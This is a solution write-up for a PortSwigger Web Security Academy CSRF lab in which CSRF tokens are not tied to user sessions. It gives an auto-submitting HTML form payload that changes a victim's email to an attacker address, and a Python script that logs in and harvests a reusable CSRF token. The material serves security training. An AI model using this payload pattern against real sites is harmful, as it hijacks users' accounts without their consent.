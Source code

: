 ```yaml
---
title: CSRF where token is not tied to user session
tags:
  - web-app
  - csrf
  - cross
  - site
  - request
  - forgery
---
```


<a href="https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session/">
4. CSRF where token is not tied to user session</a>

This web application is vulnerable to CSRF. An API endpoint and its parameters
are well known, and actions can be taken using a user's cookie without verifying
the redirecting page. The browser reuses the cookie for this site and submits a
POST request on the user's behalf, forging the request. CSRF tokens for this web
application are not correlated with the user's session, so they can be reused
across multiple sessions. This means that an attacker can obtain a valid CSRF
token and use it to perform actions on behalf of the user.

Solution:

```html
<html>
  <body>
    <form
      action="https://4.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input
        type="hidden"
        name="email"
        value="pwned&#64;evil&#45;user&#46;net"
      />
      <input type="hidden" name="csrf" value="<CSRF TOKEN HERE>" />
    </form>
    <script>
      history.pushState("", "", "/")
      document.forms[0].submit()
    </script>
  </body>
</html>
```

Script:

```python
# usage:
# python3 4.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net
# --w wiener
# --p peter

import http.client
import re
from argparse import ArgumentParser

import requests

http.client.HTTPConnection.debuglevel = 1


class Solution:
    def __init__(self, url: str, who: str, password: str) -> None:
        self.url = url.rstrip("/")
        self.who = who
        self.password = password
        self.s = None

    def login(self, username: str, password: str) -> requests.Response:
        self.s = requests.Session()
        login_url = f"{self.url}/login"
        r = self.s.get(login_url)
        csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
        r = self.s.post(
            login_url,
            data={
                "csrf": csrf,
                "username": username,
                "password": password,
            },
        )

        return r

    def solve(self) -> None:
        self.login(self.who, self.password)
        change_email_url = f"{self.url}/my-account"
        r = self.s.get(change_email_url)
        csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
        print(f"CSRF token: {csrf}")


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    parser.add_argument("--w", "--who", dest="who")
    parser.add_argument("--p", "--password", dest="password")
    args = parser.parse_args()
    s = Solution(args.url, args.who, args.password)
    s.solve()


if __name__ == "__main__":
    main()
```
